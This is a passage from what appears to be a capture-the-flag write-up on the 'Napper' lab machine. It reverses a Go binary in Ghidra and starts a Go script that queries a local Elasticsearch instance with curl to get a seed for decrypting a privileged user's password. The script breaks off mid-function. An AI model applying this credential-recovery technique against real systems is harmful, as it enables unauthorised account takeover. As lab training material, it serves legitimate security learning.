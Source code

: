 <br />
<img src="{{ site.img_path }}/napper_writeup/Napper_083.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_084.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_085.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_086.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_087.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_088.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_089.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_090.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There are excellent extensions for **Ghidra** such as **[Ghostrings](https://github.com/nccgroup/ghostrings){:target="_blank"}**, which allow me to better analyze the code in **Go**, once I download the **.zip** file and install it I can clearly see the command being executed. With all the information I collected so far I have a clearer idea about the purpose of the binary I found and debugged: it <ins>loads the environment variables</ins> it needs, <ins>generates an encrypted password</ins>, <ins>updates the Elasticsearch database</ins> and then makes a system call that will <ins>execute a command with **cmd.exe** to update the `backup` user's password</ins>. I can now create a custom script to decrypt the password, I just need to get the seed with `curl` and then with the necessary **Go** packages I get the decrypted string.

```bash
mv /home/al3j0/Downloads/ghidra_11.0.1_PUBLIC_20240204_GolangAnalyzerExtension.zip .
nvim main.go
go run main.go
```

> **main.go**

```go
package main

import(
  "fmt"
  "os/exec"       // Command execution
  "strings"
  "strconv"
  "math/rand"
  "encoding/base64"
  "crypto/aes"
  "crypto/cipher"
)

func getSeed() (int64, string, error) {
  cmd := exec.Command(
    "curl",
    "-s", "-k", "-X", "GET",
    "https://user:DumpPassword$Here@127.0.0.1:9200/_search?pretty=true",
  )

  output, err := cmd.CombinedOutput()     // Return two values: deciaml && error code

  if err != nil {
    fmt.Println("Unsuccessful command execution:", err)
```